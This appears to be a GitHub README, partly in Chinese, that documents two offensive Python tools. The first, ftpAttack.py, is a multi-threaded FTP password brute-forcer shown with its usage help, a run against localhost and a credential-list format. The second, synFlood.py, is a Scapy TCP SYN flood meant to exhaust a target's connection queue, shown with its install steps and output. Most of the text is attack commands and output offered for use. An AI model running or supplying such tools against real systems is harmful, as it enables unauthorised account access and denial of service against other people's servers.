 ### ftpAttack.py 多线程ftp密码暴力破解
```
测试：
➜  py python ftpAttack.py -h
	Usage: -H <target host> -f <password list>

	Options:
	  -h, --help     show this help message and exit
	  -H TGTHOST     specify target host
	  -f PASSWDFILE  specify password file,like username:password format file
	  -d DELAY       attack time delay set default 1s

➜  py python ftpAttack.py -H 127.0.0.1 -f userpass.md -d 1

	[-] 127.0.0.1 FTP Anonymous Logon Failed.
	[+] Trying: root/aaa

	[-] Could not brute force FTP credentials.

	[+] Trying: lock/mmm

	[-] Could not brute force FTP credentials.
	[+] Trying: alice/123


	[-] Could not brute force FTP credentials.

	The default test delay time is 0s , test default account is anonymous , if success, will show user name and password.
	userpass.md is username and password file,the file format like below:
		root:123
		hello:456
		alice:789
		test:12345
```

### synFlood.py 一个简单的 TCP SYN 洪水攻击 python版
```
More Detail:
python synFlood.py -h
1,用 Scapy 简单的复制一个 TCP SYN 洪水攻击，将制作一些 IP 数据包,  TCP 513 目标端口。
2,运行攻击发送 TCP SYN 数据包耗尽目标主机资源，填满它的连接队列，基本瘫 痪目标发送 TCP 重置包的能力。
3,netstat -an 大量的半链接状态 SYN_RECV

可能需要的依赖：
brew install --with-python libdnet

pip install scapy
pip install pcapy
pip install pydumbnet

执行效果:
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
....
```
